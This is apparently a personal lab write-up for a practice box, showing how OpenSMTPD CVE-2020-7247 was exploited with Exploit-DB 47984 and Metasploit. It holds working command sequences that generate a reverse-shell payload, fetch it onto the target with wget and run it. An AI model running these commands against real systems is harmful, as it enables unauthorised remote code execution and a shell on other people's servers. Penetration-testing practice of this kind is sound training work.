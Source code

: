 ```bash
# Nmap done at Sat Jul  3 11:11:30 2021 -- 1 IP address (1 host up) scanned in 3.28 seconds
```

# Exploit
## CVE-2020-7247
### EDB-ID-47984
This works!
```bash
searchsploit opensmtpd
mkdir edb-id-47984
cd edb-id-47984
searchsploit -m 47984

# this works!
sudo tcpdump -i tun0 icmp
python 47984.py 192.168.141.71 25 'ping -c2 192.168.49.141'

# this works!
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.141 LPORT=443 -f elf -o rshell
sudo nc -nvlp 443 # walkthrough uses TCP port 445
sudo python3 -m http.server 80
python3 47984.py 192.168.141.71 25 'wget 192.168.49.141/rshell -O /tmp/rshell'
python3 47984.py 192.168.141.71 25 'chmod +x /tmp/shell'
python3 47984.py 192.168.141.71 25 '/tmp/shell'
ifconfig -a && hostname && whoami
```

### Metasploit
This works!
```bash
sudo msfconsole
search opensmtpd
exploit/unix/smtp/opensmtpd_mail_from_rce
set RHOST 192.168.141.71
set LHOST tun0
set LPORT 25
run
ifconfig -a && hostname && whoami
```

# Lessons Learned
* Search Exploit-DB using a traditional, GUI web browser in addition to what is found via Searchsploit.
* Prioritize exploits where the exploit has been confirmed by OffSec and the vulnerable software is available for download.
* You probably found the right exploit if the target is running a relevant service version.
